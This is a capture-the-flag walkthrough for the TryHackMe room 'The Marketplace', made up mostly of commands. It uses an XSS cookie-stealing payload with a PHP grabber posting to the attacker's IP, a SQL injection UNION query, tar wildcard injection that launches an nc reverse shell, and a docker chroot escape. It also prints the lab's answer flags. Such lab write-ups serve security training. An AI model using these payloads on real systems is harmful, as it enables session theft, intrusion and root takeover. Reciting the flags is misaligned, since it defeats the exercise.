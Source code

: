 # <div align="center">[The Marketplace](https://tryhackme.com/r/room/marketplace)</div>
<div align="center">Can you take over The Marketplace's infrastructure?</div>

<div align="center">
<img src="https://github.com/user-attachments/assets/e5dd3e52-6ba0-4cee-a3fc-5a3c86816ac8" height="200"></img>
</div>

## Task 1. The Marketplace

The sysadmin of The Marketplace, Michael, has given you access to an internal server of his, so you can pentest the marketplace platform he and his team has been working on. He said it still has a few bugs he and his team need to iron out.

Can you take advantage of this and will you be able to gain root access on his server?

### What is flag 1?
```
nmap -sSCV -p- <IP>
<script>document.location='http://<my_own_IP>:8000/grabber.php?c='+document.cookie</script>

cat > grabber.php << EOF
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
EOF

nc -nlvp 8000
GET /grabber.php?c=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MjE2NzQ1NjN9.SZDjFMO2_KIMpIoLWuD5Zt3fKggTM8AoTS7plL32uig HTTP/1.1
GET /admin HTTP/1.1
```
```
THM{c37a63895910e478f28669b048c348d5}
```
### What is flag 2? (User.txt)
```
curl -s --cookie "token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MjE2NzQ1NjN9.SZDjFMO2_KIMpIoLWuD5Zt3fKggTM8AoTS7plL32uig" \
http://<IP>/admin?user=`urlencode "0 UNION SELECT 1,GROUP_CONCAT(message_content),3,4 FROM marketplace.messages"` | tail cat user.txt
```
```
THM{c3648ee7af1369676e3e4b15da6dc0b4}
```
### What is flag 3? (Root.txt)
```
id michael
find / -type f -user michael -exec ls -l {} + 2>/dev/null
cat /opt/backups/backup.sh 
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *

sudo -l
cat > /opt/backups/shell.sh << EOF
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.8.50.72 4444 >/tmp/f
EOF

chmod +x /opt/backups/shell.sh
touch "/opt/backups/--checkpoint=1"
touch "/opt/backups/--checkpoint-action=exec=sh shell.sh"
cd /opt/backups/
sudo -u michael /opt/backups/backup.sh

nc -nlvp 4444
id
docker image ls
python3 -c "import pty;pty.spawn('/bin/bash')"
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
id
cat /root/root.txt
```
```
THM{d4f76179c80c0dcf46e0f8e43c9abd62}
```
Answer format: ***{********************************}
Submit
What is flag 3? (Root.txt)
